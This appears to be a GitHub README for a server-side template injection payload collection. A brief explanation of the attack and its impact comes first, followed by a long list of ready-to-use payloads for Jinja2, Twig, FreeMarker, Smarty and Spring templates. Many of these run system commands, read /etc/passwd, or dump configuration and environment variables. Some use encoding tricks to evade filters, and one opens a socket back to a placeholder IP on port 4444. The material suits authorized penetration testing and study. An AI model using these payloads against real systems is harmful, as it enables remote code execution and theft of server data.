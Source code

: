 ## Server Side Template Injection Payloads


<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/fr4nzisko/ssti-payloads?style=social"> <img src="https://img.shields.io/github/forks/fr4nzisko/ssti-payloads?style=social"> <img src="https://img.shields.io/github/repo-size/fr4nzisko/csv-injection-payloads"> <img src="https://img.shields.io/github/license/fr4nzisko/ssti-payloads"> <img src="https://img.shields.io/github/issues/detail/author/fr4nzisko/csv-injection-payloads/1">

Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can occur when user input is concatenated directly into a template, rather than passed in as data. This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection. 

#### Impact :

Server-side template injection vulnerabilities can expose websites to a variety of attacks depending on the template engine in question and how exactly the application uses it. In certain rare circumstances, these vulnerabilities pose no real security risk. However, most of the time, the impact of server-side template injection can be catastrophic.

At the severe end of the scale, an attacker can potentially achieve remote code execution, taking full control of the backend server and using it to perform other attacks on internal infrastructure.

Even in cases where full remote code execution is not possible, an attacker can often still use server-side template injection as the basis for numerous other attacks, potentially gaining read access to sensitive data and arbitrary files on the server. 

#### Payloads :

```py
{{2*2}}[[3*3]]
{{3*3}}
{{3*'3'}}
<%= 3 * 3 %>
${6*6}
${{3*3}}
@(6+5)
#{3*3}
#{ 3 * 3 }
{{dump(app)}}
{{app.request.server.all|join(',')}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.__base__.__subclasses__()}} # Search for Popen process, use payload below change 227 to index of Popen
{{''.__class__.__base__.__subclasses__()[227]('cat /etc/passwd', shell=True, stdout=-1).communicate()}}
{% for key, value in config.iteritems() %}<dt>{{ key|e }}</dt><dd>{{ value|e }}</dd>{% endfor %}
{{'a'.toUpperCase()}} 
{{ request }}
{{self}}
<%= File.open('/etc/passwd').read %>
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/etc/passwd").read() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat /etc/passwd',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{$smarty.version}
{php}echo `id`;{/php}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"/etc/passwd\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

#### References :

* 👉 https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection
* 👉 https://portswigger.net/research/server-side-template-injection
* 👉 https://www.indusface.com/learning/application-security/server-side-template-injection/

##### Cloning an Existing Repository ( Clone with HTTPS )
```
root@fr4nzisko:~# git clone https://github.com/fr4nzisko/ssti-payloads.git
```

##### Cloning an Existing Repository ( Clone with SSH )
```
root@fr4nzisko:~# git clone git@github.com:fr4nzisko/ssti-payloads.git
```
